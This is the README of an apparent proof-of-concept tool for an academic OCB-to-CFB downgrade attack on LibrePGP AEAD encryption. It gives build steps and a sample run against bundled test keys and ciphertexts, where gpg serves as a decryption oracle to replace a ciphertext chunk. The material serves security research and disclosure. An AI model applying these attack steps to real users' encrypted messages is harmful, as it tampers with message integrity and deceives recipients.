 
# Test tool for LibrePGP v5 AEAD-to-CFB downgrade attacks

This tool implements the AEAD-to-CFB (more specifically OCB-to-CFB) downgrade attack described in https://eprint.iacr.org/2024/1110 as a proof of concept.

## Building the tool

The tool only runs under Unix OS. It has been tested on Debian 10, but should run on any newer distribution as well. It requires GCC 13.1 or higher.

The following prerequisites have to be installed and the corresponding CMake variables of `v5-aead-decr-oracle` be set:

| Library        | GitHub URL                                      | Commit known to work                     | CMake variables to set                                                                        |
| ---            | --                                              | -----                                    | ---                                                                                           |
| Botan 3        | https://github.com/randombit/botan              | 3bee7a12a750c50a90d8147fa2d38c707b032592 | BOTAN_INCLUDE_DIR: set to `.../botan/build/include/public`, BOTAN_LIB_DIR: set to `.../botan` |
| args           | https://github.com/Taywee/args                  | b7d67237e8bdaa517d7fd6e4e84e1f6efa24f8c5 | TARGS_INCLUDE_DIR: set to `.../args`                                                          |
| cpp-subprocess | https://github.com/arun11299/cpp-subprocess.git | af23f338801ed19696da42b1f9b97f8e21dec5d6 | CPP_SUBPROCESS_INCLUDE_DIR: set to `.../cpp-subprocess`                                       |

Afterwards the tool can be built with CMake.

The GnuPG command line application must be available in the PATH variable. The attack code uses the GnuPG to perform the SED packet trial encryptions. The attack application invokes it by issuing the command `gpg`.  This version does not need to support LibrePGP OCB packets.

For the purpose of verifying the decryption of the initial unmodified packet and one produced by the attack, however, it must be ensured that a version of GnuPG is used that supports the LibrePGP OCB packets. 


## Sample attack

This section describes how to execute a sample attack against a combination of a PKESK and OCB packet that is contained in the repository together with the corresponding OpenPGP private key. The attack uses an SED-decryption oracle to replace one chunk in the OCB ciphertext with whitespaces.


### Import the test key

Before importing the test private key, consider creating a distinct key ring for it.
If it is imported into a key ring that already contains other keys, then during the attack, which performs numerous trial decryptions of manipulated ciphertexts, there will occur prompts for password entry.
This can be avoided by importing the key to a keyring of a user that has no other keys. The attack tool does not support the choice of a custom key ring. Accordingly, it is recommended to run it under a Unix user that has not other keys.

Change into the CMake build directory and execute the command
```
gpg --import ../artifacts/test-key.asc
```

### Decrypt the original plaintext
Change into the CMake build directory and execute the command
```
gpg --decrypt --show-session-key  ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.gpg.bin
```
The expected output is

    gpg: encrypted with 3072-bit RSA key, ID D6B5C6B229E30C28, created 2023-06-28
          "test key <test@example.com>"
    gpg: session key: '9:FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914'
    ```
    KMAC256(K, X, L, S):
    Validity Conditions: len(K) < 2²⁰⁴⁰ and 0 ≤ L < 2²⁰⁴⁰ and len(S) < 2²⁰⁴⁰

    1. newX = bytepad(encode_string(K), 136) || X || right_encode(L).
    2. T = bytepad(encode_string(“KMAC”) || encode_string(S), 136).
    3. return KECCAK[512](T || newX || 00, L)  // "00" is the 2-bit padding
    ```

### Run the attack to produce a manipulated ciphertext


Change into the CMake build directory and execute the command
```
./v5-aead-attack replace-chunk -u ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.pkesk.bin --iterations=100 --data-log-dir=run_time -kFFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914 --nb-leading-random-bytes=256  --query-repeat-count=100 --file-with-aead-packet ../artifacts/doc.aead.ocb.small-chunks-with-key-FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914-no-compression.gpg.bin
```
Here, the specification of the session key with `-kFFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914` that was determined in the previous step is optional.
It is used to detect some rare errors that can lead to a false detection of a repeated pattern in the decryption result that will lead to failure of the attack. Remove this argument to execute the attack under realistic conditions.

You will see a lot of output and possibly password entry requests in case you have password protected keys in the key ring that is used. 

List the latest sub directory of `run_time` (under the CMake build folder). If the attack was successful, then it contains at least one file ending in `pkesk-then-aead-packet-with-final-chunk-replaced`

### Run decrypt the manipulated AEAD ciphertext
Change into the cmake build directory and execute the command (replacing the time stamp with the one of the latest run from the previous step and choosing one file ending in `pkesk-then-aead-packet-with-final-chunk-replaced`, should there
be multiple)
```
gpg --decrypt run_time/2025-03-25--10-18-00/74-pkesk-then-aead-packet-with-final-chunk-replaced
```

The expected output is

    gpg: encrypted with 3072-bit RSA key, ID D6B5C6B229E30C28, created 2023-06-28
          "test key <test@example.com>"
    gpg: session key: '9:FFE671A89D964808EB47EB2D956EEF7B8EF5660D9425750ECC94038C8E7AC914'
    ```
    KMAC256(K, X, L, S):
    Validity Conditions: len(K) < 2²⁰⁴⁰ and 0 ≤ L < 2²⁰⁴⁰ and len(S) < 2²⁰⁴⁰

    1. newX = bytepad(encode_string(K), 136) || X || right_encode(L).
    2. T = bytepad(encode_string(“KMAC”) || encode_st                                                                " is the 2-bit padding
    ```

The content of the next-to-final chunk has been replaced with whitespaces.

# License

If not otherwise noted in the source code files, they are under Apache License v2 (see file `LICENSE`). The files adopted from Botan are under the Botan license (see file `botan_license.txt`).
